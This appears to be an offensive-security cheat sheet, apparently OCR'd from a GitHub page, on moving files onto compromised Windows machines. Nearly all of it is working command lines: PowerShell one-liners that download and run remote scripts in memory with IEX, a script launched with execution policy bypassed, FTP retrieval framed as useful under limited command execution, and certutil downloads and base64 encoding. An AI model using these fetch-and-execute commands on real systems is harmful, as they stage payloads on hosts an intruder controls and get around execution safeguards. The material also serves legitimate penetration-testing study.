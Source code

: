 ```powershell
(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 
```

PowerShell One-Line Script Execution in Memory

```powershell
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

PowerShell with Proxy

```powershell
$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
```

PowerShell Script

```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

Non-interactive FTP via text file. _Useful for when you only have limited command execution._

```
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
```

CertUtil

```
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

Certutil can also be used for base64 encoding/decoding.

```
certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```

Starting with Windows 10 1803 (April 2018 Update) the `curl` command has been implemented which gives another way to transfer files and even execute them in memory. _Piping directly into cmd will run most things but it seems like if you have anything other than regular commands in your script, ie loops, if statements etc, it doesn't run them correctly._
